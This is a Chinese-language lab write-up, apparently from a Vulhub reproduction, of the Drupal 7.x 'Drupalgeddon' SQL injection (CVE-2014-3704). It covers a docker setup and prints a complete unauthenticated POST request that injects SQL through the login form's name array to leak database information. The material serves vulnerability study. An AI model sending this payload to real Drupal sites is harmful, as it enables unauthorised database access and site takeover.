 # Drupal < 7.32 “Drupalgeddon” SQL注入漏洞 CVE-2014-3704

## 漏洞描述

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 环境搭建

Vulhub执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`。

安装完成后，访问首页：

![image-20220222184024921](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221840002.png)

## 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: 192.168.174.128:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可见，信息已被爆出：

![image-20220222184323967](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221843071.png)